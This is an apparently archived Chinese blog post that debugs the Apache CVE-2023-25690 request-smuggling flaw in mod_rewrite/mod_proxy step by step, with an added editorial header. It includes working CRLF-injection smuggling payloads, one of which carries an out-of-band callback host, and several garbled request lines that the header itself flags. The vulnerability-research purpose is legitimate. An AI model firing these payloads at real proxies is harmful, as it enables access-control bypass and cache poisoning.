# Apache CVE-2023-25690 漏洞手动调试分析

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.4.0–2.4.55，mod_proxy 与包含用户可控捕获组的特定 RewriteRule/ProxyPassMatch 反向代理配置；后端行为影响后果
- 证据范围：编译、GDB、rewrite 参数解码和代理请求拼接分析独立且有价值；示例请求和日志文字存在多处损坏。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- APR 构建使用 CLFAGS 拼错 CFLAGS，无法按意图加入调试标记
- 存在空图片地址 image.png；末尾参考链接两条粘连
- 原始走私请求行缺最后 HTTP 版本，第二例含未编码空格/混杂 HTTP 语法，应恢复原始字节
- 正常 hello/abc 示例解析结果丢 abc，响应又显示 Win64 Apache 而描述后端 Kali，环境对应关系不清
- DNSlog 依赖人为假设的后端 secret 参数功能，不能单独归因为 HTTPd 本身 SSRF
- 补明确修复版本并移除付费星球广告

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 骨哥说事  骨哥说事   2024-08-15 18:56  
  
<table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><h1 data-selectable-paragraph="" style="white-space: normal;outline: 0px;max-width: 100%;font-family: -apple-system, system-ui, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(255, 0, 0);"><strong><span style="font-size: 15px;">声明：</span></strong></span><span style="font-size: 15px;"></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="font-size: 15px;">文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。</span></span></h1></td></tr></tbody></table>

#   
# 博客新域名：https://gugesay.com  
  
******不想错过任何消息？设置星标****↓ ↓ ↓**  
****  
#   
  
  
  
  
**目录**  
漏洞简述环境搭建aprapr-utilhttpd安装依赖下载源码VS Code调试配置开启模块设置反向代理动态调试漏洞分析  
### 纸上得来终觉浅，绝知此事要躬行。  ---陆游  
# 漏洞简述  
  
Apache HTTP Server 版本 2.4.0 到 2.4.55 上的某些 mod_proxy 配置允许 HTTP 请求走私攻击。启用 mod_proxy 以及特定配置的 RewriteRule 或 ProxyPassMatch 模块时，当规则与用户提供的URL的某些部分匹配时，会因为变量替换从而造成代理请求目标错误 此漏洞会造成请求拆分和走私，引起权限绕过，缓存投毒等攻击。  
# 环境搭建  
- 操作系统：Ubuntu 20.04  
  
- IDE：VS Code  
## 安装依赖  
  
依赖需要使用到编译软件所需的build-essential，以及调试C/C++程序所需要的GDB等：  
```shell

sudo apt-get install build-essential gdb
sudo apt-get install --no-install-recommends libapr1-dev libaprutil1-dev libpcre3-dev
```  
## 下载源码  
  
Apache官网下载2.4.55版本源码：https://archive.apache.org/dist/httpd/  
  
官网下载apr-1.7.4和apr-util-1.6.3的源码：https://dlcdn.apache.org/apr/  
  
解压并安装：  
```
tar -xvzf httpd-2.4.55.tar.gz
tar -xvzf apr-1.7.4.tar.gz
tar -xvzf apr-util-1.6.3.tar.gz
```  
### apr  
```
CLFAGS="-g" ./configure --prefix=/home/workspace/apache-bin/apr
make
make install
```  
### apr-util  
```
CLFAGS="-g" ./configure --prefix=/home/workspace/apache-bin/apr-util --with-apr=/home/workspace/apache-bin/apr
make
make install
```  
### httpd  
```
CFLAGS="-g" ./configure --prefix=/home/workspace/apache-bin/httpd --with-apr=/home/workspace/apache-bin/apr --with-apr-util=/home/workspace/apache-bin/apr-util
make
make install
```  
# VS Code调试配置  
  
安装VS Code（略）  
  
进入/home/workspace/apache-bin/httpd目录，安装VS Code的cpp扩展：  
  
``  


> 资源说明：此处原归档的图片地址为空，以上保留原始占位语法；无法据此判断图片内容，未猜补地址。
  
然后添加launch.json配置文件：  
```

{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "httpd-2.4.55",
            "type": "cppdbg",
            "request": "launch",
            "program": "/home/workspace/apache-bin/httpd/bin/httpd",
            "args": ["-X", "-DFOREGROUND"],
            "stopAtEntry": false,
            "cwd": "/home/workspace/apache-bin/httpd",
            "environment": [],
            "externalConsole": false,
            "MIMode": "gdb",
            "setupCommands": [
                {
                    "description": "Enable pretty-printing for gdb",
                    "text": "-enable-pretty-printing",
                    "ignoreFailures": true
                }
            ]
        }
    ]
}

```  
- program 为需要调试的httpd二进制文件  
  
- args是运行时传递的参数，-DFOREGROUND的作用是让Apache运行在前台。-X的作用是只启动一个进程，Apache本身是一个多进程的Web服务器，调试的时候会产生干扰，因此指定-X参数非常重要。  
  
- cwd是指定运行时的目录  
  
## 开启模块  
  
修改conf/httpd.conf，开启添加如下模块：  
```
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so
LoadModule rewrite_module modules/mod_rewrite.so
```  
  
ServerName设置以及访问端口设置8000：  
```
ServerName 127.0.0.1
Listen 8000
```  
## 设置反向代理  
  
然后在httpd.conf最下方写如下代码，开启反向代理服务：  
```
<VirtualHost *:8000>
    ServerAdmin webmaster@localhost
    ServerName localhost:8000
    DocumentRoot /home/workspace/apache-bin/httpd/htdocs

    LogLevel alert rewrite:trace3 proxy:trace8

    ErrorLog /home/workspace/apache-bin/httpd/logs/error.log
    CustomLog /home/workspace/apache-bin/httpd/logs/access.log combined

    RewriteEngine on
    RewriteRule "^/hello/(.*)" "http://192.168.23.130/index.php?name=$1" [P]

</VirtualHost>
```  
  
  
设置日志等级，主要用于记录mod_rewrite和mod_proxy日志 LogLevel alert rewrite:trace3 proxy:trace8，可以在error.log中查看  
  
RewriteRule具体可以参考mod_rewrite模块的文档：  
  
https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html  
  
末尾的 [P] 会将请求发送给mod_proxy模块，让apache生成一个request去请求目标后端服务器，这里后端服务器是我用Kali-Linux直接启动的192.168.23.130 的Apache+PHP服务器。  
## 动态调试  
  
漏洞点在mod_rewrite.c的hook_uri2file函数中，当uri匹配到正则时，就会进行RewriteRule规则替换，然后准备一个新的请求交给mod_proxy：  
  
我们可以将断点打在modules/mappers/mod_rewrite.c的4693行：  
  
  
  
然后发送如下请求包：  
```http

GET /hello/abc HTTP/1.1
Host: 192.168.23.132:8000
```  
  
可以看到，请求被解析，可以看到thisserver，port，thisurl等参数：  
  
  
  
F10，继续向下走，走到4717行的地方，就是rewrite规则的地方了，此时r->filename的值与r->uri的值保持一致：  
  
  
  
继续F10下一步：  
  
  
  
可以看到经过apply_rewrite_list函数后，r->filename会变为"[proxy:http://192.168.23.130/index.php]”，这里的写法可以参考mod_proxy模块，然后r->args也会被替换为"[name=]"，也就是我们反向代理配置中写的get传参：  
  
  
  
继续F10单步走，来到4740行的时候，这里会判断r->filename是否以"proxy:"开头：  
  
  
  
继续F10向下，经过一系列的if判断后，r->handler被设置为"[proxy:server]"：  
  
  
  
之后就会交给mod_proxy处理，然后顺利收到响应：  
```

HTTP/1.1 200 OK
Date: Wed, 15 Mar 2023 16:29:39 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/8.0.2
Content-Type: text/html; charset=UTF-8
Content-Length: 9

Hello!
```  
# 漏洞分析  
  
以上流程中，我们的可控的只有r->args，那么就可以考虑从这里入手，如果uri中带有控制字符，那么就有可能控制发送给mod_proxy的请求体，从而造成请求走私，类似于CRLF注入。  
  
发送如下请求，uri中携带控制字符：  
```

GET /hello/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED
Host: 192.168.23.132:8000
```  
  
经过apply_rewrite_list函数后，r->args被设置为name=$1的形式，而$1也就是r->uri中匹配"^/hello/(.*)"的部分，值得注意的是，这里的r->uri是经过了url解码的，我们的控制字符被成功解析，从而有了进行CRLF注入的机会：  
  
  
  
按F5直接运行后，查看Kali服务器的access.log，可以看到请求成功发送给了后端服务器，造成请求走私：  
  
  
  
由此可以得知可控部分在整个请求头的中间，因此使用以下Payload进行测试（假设后端服务器存在类似index.php?secret=的实现方式）：  
```http

GET /hello/1 HTTP/1.1%0D%0AHost: localhost%0D%0A%0D%0AGET /index.php%3fsecret=e9oqiv225m7dzu6l2475rshga7gy4ssh.oastify.com
Host: 192.168.23.132:8000
```  
  
获得DNSlog响应。  
  
  
参考资料：  
  
https://forum.butian.net/share/2180https://github.com/dhmosfunk/CVE-2023-25690-POC  
  
**加入星球，随时交流：**  
  
****  
**（前50位成员）：99元/年****（前100位成员）：128元/年****（****100位+成员）：199元/年**  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～****====正文结束====**  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
